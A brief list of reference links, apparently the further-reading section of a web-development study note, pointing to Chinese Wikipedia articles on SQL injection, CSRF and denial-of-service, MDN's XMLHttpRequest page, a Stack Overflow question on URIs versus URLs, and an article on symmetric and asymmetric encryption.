- [维基百科：SQL 注入攻击](https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A)
- [维基百科：跨站点请求伪造](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)
- [维基百科：拒绝服务攻击](https://zh.wikipedia.org/wiki/%E9%98%BB%E6%96%B7%E6%9C%8D%E5%8B%99%E6%94%BB%E6%93%8A)
- [What is the difference between a URI, a URL and a URN?](https://stackoverflow.com/questions/176264/what-is-the-difference-between-a-uri-a-url-and-a-urn)
- [XMLHttpRequest](https://developer.mozilla.org/zh-CN/docs/Web/API/XMLHttpRequest)
- [XMLHttpRequest (XHR) Uses Multiple Packets for HTTP POST?](https://blog.josephscott.org/2009/08/27/xmlhttprequest-xhr-uses-multiple-packets-for-http-post/)
- [Symmetric vs. Asymmetric Encryption – What are differences?](https://www.ssl2buy.com/wiki/symmetric-vs-asymmetric-encryption-what-are-differences)
